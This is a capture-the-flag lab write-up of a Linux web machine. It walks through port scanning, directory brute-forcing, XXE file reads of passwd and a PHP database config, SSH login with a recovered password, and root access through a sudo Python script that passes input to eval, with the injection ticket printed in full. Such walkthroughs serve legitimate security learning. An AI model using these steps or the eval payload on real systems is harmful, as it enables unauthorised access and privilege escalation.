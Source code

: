 ## understanding the structure

1. nmapping the server looking for open ports and hints: <code>sudo nmap -p- --min-rate 10000 -oA bountynmap/ports -v 10.10.11.100</code>
![nmap1 results](https://is-going-to-rick-roll.me/1637699944.png)


From the nmap result i can understand that ports <mark>80, and 22</mark> are open

Now I'll run a deeper nmap to check sevrer info and what's actually is open

<code>sudo nmap -sC -sV -oA bountynmap/etc -p 80,22 10.10.11.100</code>
![nmap2 results](https://is-going-to-rick-roll.me/1637699794.png)

<br>

## mapping the website - looking for vulnerabilities in UI 

After opening burp suite and checking all pages and forms i can see the they are not really doing any action.
Besides the portal page thats navigates to http://10.10.11.100/log_submit.php

![burp suite check](https://is-going-to-rick-roll.me/1637762423.png)

this form sends the data i input to the form and encodes in base64
decoding this string returns XML instructions.

try to change the date to XML with XXE

From looking at the pages I can also see that the website is coded in PHP, so I started to run `gobuster` (brute-force tool) on SecLists raft-small-words list.
<code>gobuster dir -w SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o hunterPages.txt -u http://10.10.11.100</code>


![XXE found](https://is-going-to-rick-roll.me/1637762393.png)

<br>

## executing commands/drawing out data from the server

After we found the first vulnerability we can use it and try to draw data, let's try getting the passwd file usign using the XXE.

![XXE](https://is-going-to-rick-roll.me/1637762776.png)

and here we go, it returned all the registered users

save the result in new file and grpe all users:

<code>grep home passwdFile | cut -d: -f1</code>

![users](https://is-going-to-rick-roll.me/1637763224.png)
we have two users: `"syslog", and "development"`

<br>

Now when the brute-force process (using gobuster) has endeed we can take a look at the output (hunterPages.txt) and take a look on all the pages.
From a first look i can find a file that might contain some details "/db.php"

trying to navigate to http://10.10.11.100/db.php returns  200 without any data, so maybe we can try getting this page with XXE


![db file](https://is-going-to-rick-roll.me/1637765282.png)

now the td tag line returns a result including something that might be the db.php encrypted.
decoding it using base64 returns
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "password-was-removed-do-it-yourself";
$testuser = "test";
?>
```

alright now when we have the password we can try and login to a user.
I used `crackmapexec` to try and login to one of the users.

create a file with all the users we found (development and syslog)
run: `crackmapexec ssh 10.10.11.100 -u users.lst -p "m19RoAU0hP41A1sTsq6K"`


##### crackmapexec result
![crackmapexec result](https://is-going-to-rick-roll.me/1637776835.png)

as we can see from the result, we have now the connection info to user: development followed by his password we found.

###### connect via SSH

<code>cat user.txt</code> - Congrats this is the first flag.



<br>

## Time to own the system

run: <code>sudo -l</code> to see what files the current user can run

![sudo -l -> response](https://is-going-to-rick-roll.me/1637778122.png)

The only intresting file is ticketValidator.py, this is also might me our hint.

After a short look i can see that this file is evaluating user input, so it might be vulnerable.

# Conclusions regarding the script (see /bountynmap/ticketValidator.py)

* File must to end with <mark>.md</mark>
* First line in the file must be <mark># Skytrain Inc</mark>
* Second line in the file must to start with <mark>## Ticket to &nbsp;</mark>
* Closed tickets 3rd line will be <mark>__Ticket Code:__</mark> you can also leave it like <mark>__Ticket Code:</mark>
  but line after must to start with <bold>**</bold> and it'll be replaced with ""
* After all these steps and if you pass all the checks It'll check if <code>if int(ticketCode) % 7 == 4:</code> is true
and It'll eval <code>eval(x.replace("**", ""))</code>


<h6>make sure to run this script with sudo</h6>
```s
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**11+__import__("os").system("bash")
```

run: <code>whoami</code> -> congrats you are root!

```s
cd ~
```

```s
cat root.txt
```